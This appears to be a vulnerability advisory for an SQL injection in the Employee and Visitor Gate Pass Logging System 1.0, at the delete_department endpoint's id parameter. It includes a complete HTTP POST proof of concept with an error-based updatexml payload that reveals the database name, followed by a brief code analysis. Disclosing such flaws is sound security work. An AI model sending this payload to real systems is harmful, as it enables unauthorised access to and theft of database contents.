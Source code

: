 ## Affected version: 
Employee and Visitor Gate Pass Logging System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Master.php?f=delete_department

## Description:
Employee and Visitor Gate Pass Logging System 1.0 is vulnerable to unrestricted SQL injection attacks via /employee_gatepass/classes/Master.php?f=delete_department, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /employee_gatepass/classes/Master.php?f=delete_department HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/admin/?page=maintenance/department
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd; __insuarance__logged=1; __insuarance__key=SK9MGL4R5CQPM34FZSH3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=3%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get the database name through error injection
<img width="1267" alt="image" src="https://github.com/user-attachments/assets/817a092d-2a84-49fc-9e42-9923705c5a2e">



Get the database name: employee_gatepass_db
## code analysis:

The id parameter in Master.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

<img width="1167" alt="image" src="https://github.com/user-attachments/assets/0b91c9a5-e026-4cee-bb48-afa8129dbdab">




 
